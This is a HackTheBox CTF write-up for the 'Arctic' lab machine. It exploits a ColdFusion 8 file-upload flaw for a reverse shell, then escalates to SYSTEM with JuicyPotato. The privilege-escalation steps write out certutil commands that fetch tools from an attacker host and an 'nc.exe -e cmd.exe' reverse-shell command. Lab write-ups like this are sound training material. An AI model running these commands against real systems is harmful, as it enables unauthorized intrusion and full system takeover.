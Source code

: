 # Arctic [HTB](https://app.hackthebox.com/machines/Arctic)
![arctic-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/arctic-01.png)


## recon 

Lets add an entry to `/etc/hosts` for this box: 

![hosts-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/hosts-02.png)


Now we can start enumerating with nmap:

`nmap -sC -sV -A -p- acrtic.htb -oN nmap.result`

![nmap-res-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/nmap-res-03.png)

We have the following:

+ An RPC endpoint mapper on port 135, and another RPC related port on 49154.
+ A JRun HTTP server on port 8500.


Lets go check the site. 


### HTTP 8500


If we open our browser and navigate towards `http://arctic.htb:8500`:

![site-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/site-04.png)

We can see we have two folders. If go into the first folder, we can see an `adminstrator` folder:

![admin-folder-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/admin-folder-05.png)

Which leads to an admin portal:

![admin-portal-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/admin-portal-06.png)

We can see this tech is Adobe ColdFusion 8. 

ColdFusion Markup Language is an interpreted language utilizing a Java backend. It allows direct 
access to Java via its cfscript tags, while simultaneously offering a simple web wrapper. 
It is vulnerable to a variety of attacks, but mainly Local File Disclosure (LFD) and SQL injection. 

If we search ColdFUsion 8 on google, we can quickly find a [public exploit](https://www.exploit-db.com/exploits/50057): 

![exploit-db-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/exploit-db-07.png)


Apperatnly there is an upload file feature on the application in:

`/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm`


The exploit generates a `java/jsp_shell_reverse_tcp` payload using `msfvenom`, and saves it to a file.
Then, it sends the file to the server in a specific form. Finally it navigates to the reverse shell's
location to execute it while setting up a listener. Lets try it out. 

After downloading it, make sure to update your lhost/rhost information in the exploit:

![edit-exploit-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/edit-exploit-08.png)

We should be good to go, lets execute with:

`python3 rce_exploit.py`

![execute-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/execute-09.png)


At the end you should get a shell:

![shell-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/shell-10.png)



## Privilege Escalation


Lets run `systeminfo` on our tagret:

![sysinfo-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/sysinfo-11.png)


We can see the target is a:

+ Windows 2008 R2 server standard.  
+ 6.1.7600 N/A Build 7600
+ X64 arhc 

After Following [sushant747](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html) checklist for a bit, i found nothing meaningful. 

I also tried running [windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) but without success.

So i decided to look at our user's privileges with `whoami  /priv`:

![privs-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/privs-12.png)


Looks like we have `SeImpersonatePrivilege` enabled. We might be able to expoit this with a [potato attack](https://github.com/ohpe/juicy-potato). 

+ Download the exploit from [here](https://github.com/ohpe/juicy-potato/releases).

+ Host the exploit to the target by starting a python server with:

`python3 -m http.server 80`

+ Transfer the exploit to the target with:

`certutil -urlcache -f http://10.10.14.20/JuicyPotato.exe potato.exe`

+ Tranfer a copy of `/usr/share/windows-resources/binaries/nc.exe` to the target as well. 

`certutil -urlcache -f http://10.10.14.20/nc.exe nc.exe`

+ Set up the local listener: 

`nc -lnvp 9009`

+ Execute `potato.exe -l 9009 -p C:\windows\system32\cmd.exe -a "/c c:\\Users\tolis\nc.exe -e cmd.
exe 10.10.14.20 9009" -t *`

+ Get system: 

![root-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/root-13.png)
